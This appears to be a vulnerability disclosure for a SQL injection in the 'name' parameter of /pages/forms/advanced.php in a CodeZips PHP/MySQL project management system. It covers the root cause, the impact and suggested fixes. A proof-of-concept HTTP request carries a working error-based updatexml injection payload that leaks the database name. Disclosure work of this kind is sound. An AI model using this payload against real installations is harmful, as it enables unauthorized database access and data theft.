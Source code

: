 # CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/

## Software Link

- https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```

<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
